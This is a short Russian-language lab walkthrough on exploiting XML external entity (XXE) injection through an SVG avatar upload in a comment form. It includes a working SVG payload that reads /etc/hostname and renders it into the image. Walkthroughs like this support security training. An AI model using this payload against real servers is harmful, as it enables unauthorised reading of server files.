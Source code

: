 ## Exploiting XXE via image file upload
1. Находим что в комментариях можно указывать аватар
2. Создаем картинку, на которой бы рисовалось содержимое файла: 
```
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" version="1.1">
<text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

3. Оставляем комментарий. На картинке видим ответ.